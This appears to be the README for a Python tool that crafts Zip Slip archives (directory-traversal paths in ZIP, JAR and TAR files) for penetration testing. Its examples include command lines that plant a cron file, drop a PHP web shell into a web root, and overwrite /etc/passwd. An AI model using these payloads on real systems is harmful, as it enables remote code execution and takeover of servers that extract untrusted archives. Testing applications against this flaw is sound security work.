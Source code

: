 # s31zipslip - Zip Slip Vulnerability Archive Creator

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes.

## About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- Customizable target paths and filenames
- Flexible file content specification
- Clean and intuitive command-line interface
- Comprehensive error handling

## 📋 Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Create a basic test archive:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive with PHP shell content:**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar) 
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../`). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

